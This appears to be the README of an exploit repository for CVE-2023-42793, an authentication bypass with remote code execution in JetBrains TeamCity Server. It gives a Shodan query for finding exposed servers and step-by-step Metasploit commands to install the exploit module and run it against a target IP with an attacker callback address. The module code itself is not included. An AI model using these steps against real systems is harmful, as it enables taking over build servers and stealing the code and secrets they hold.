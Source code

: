 # CVE-2023-42793

![](https://img.shields.io/static/v1?label=Product&message=JetBrains%20TeamCity%20Server&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=All%20versions%20of%20TeamCity%20prior%20to%20version%202023.05.4&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:9.8.%20Remote%20Code%20Execution&color=red)

## Shodan Dork:
```
TeamCity-Node-Id: MAIN_SERVER
```

## Description

In JetBrains TeamCity before 2023.05.4 authentication bypass leading to RCE on TeamCity Server was possible


### Usage

### Metasploit Framework

```
cp jetbrains_teamcity_rce_cve_2023_42793.rb /usr/share/metasploit-framework/modules/exploits/multi/http/jetbrains_teamcity_rce_cve_2023_42793.rb
```
```
msfdb reinit; msfconsole -q
```
```
use exploits/multi/http/jetbrains_teamcity_rce_cve_2023_42793.rb
```
```
set RHOSTS target_IP
```
```
set lhost attacker_IP
```
```
run
```

